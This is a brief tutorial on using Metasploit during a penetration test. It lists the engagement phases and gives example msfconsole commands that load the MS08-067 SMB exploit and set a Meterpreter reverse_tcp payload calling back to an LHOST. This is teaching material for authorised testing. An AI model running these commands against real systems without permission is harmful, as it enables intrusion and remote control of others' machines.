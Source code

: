 ### How do you use Metasploit in a penetration testing engagement?

Metasploit is often used in various stages of a penetration testing engagement:

1. **Reconnaissance**: Gather information about the target system using auxiliary modules.
2. **Vulnerability Scanning**: Use Metasploit’s database to check for known vulnerabilities of the target systems.
3. **Exploitation**: After identifying vulnerabilities, select and configure an appropriate exploit module to gain access or execute code on the target system.
4. **Payload Delivery**: Choose and configure a payload that the exploit will deliver to the target system. This could be a shell or a Meterpreter session.
5. **Post-Exploitation**: Utilize post-exploitation modules to escalate privileges, pivot to other systems, or gather additional data from the target network.
6. **Evidence Collection**: Use scripts to take screenshots, dump system hashes, or collect other evidence of system compromise.
7. **Reporting**: Document the steps taken, including any exploits used, the success of these exploits, and the data gathered during the post-exploitation phase.

### Example

1. **Starting Metasploit**:
    
    ```
    msfconsole
    ```
    
2. **Database Setup** (if needed):
    
    ```csharp
    msfdb init
    ```
    
3. **Searching for Vulnerabilities**:
    
    ```bash
    search type:exploit platform:windows smb
    ```
    
4. **Selecting an Exploit**:
    
    ```bash
    use exploit/windows/smb/ms08_067_netapi
    ```
    
5. **Setting Exploit Options**:
    
    ```bash
    set RHOST 192.168.1.10
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 192.168.1.100
    ```
    
6. **Running the Exploit**:
    
    ```
    exploit
    ```
    